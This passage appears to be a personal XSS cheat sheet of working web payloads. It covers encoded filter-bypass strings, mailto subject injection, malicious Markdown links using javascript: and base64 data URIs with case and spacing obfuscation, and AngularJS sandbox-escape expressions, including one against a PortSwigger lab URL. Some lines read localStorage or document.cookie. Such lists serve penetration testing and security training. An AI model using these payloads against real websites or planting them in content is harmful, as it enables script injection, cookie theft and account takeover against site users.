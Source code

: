 ```js
//if they filter out < > " 
%22%3E%3Cimg src=x onerror=alert(1) %3C!--

//if email:
mailto: test@example.com?subject=<script>alert(1)</script>
mailto:test@example.com?subject='+escape('<img src=x onerror=alert(1)>
```

## Markdown XSS
```js
//https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown

<!-- Other links attacks with some bypasses -->
[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
[Link](jaVaScRiPt:alert('XSS'))
[Link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```

## Angularjs bypasses
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 

- constructor.constructor('alert(1)')() 
- {{constructor.constructor('alert(1)')()}}
- {{constructor.constructor('alert(1)')()}}{{7*7}}
- ${constructor.constructor('alert(1)')()}
- {{constructor.constructor(`alert(document.domain)`)()}}
- {{constructor['constructor'](`alert(1)`)()}}


- https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
  - &toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
  - this breaks out of the AngularJS sandbox and becomes x=alert(1)



## dummy image
`https://raw.githubusercontent.com/thiem-dev/xssCat/main/tpen-safe-cat.jpg`
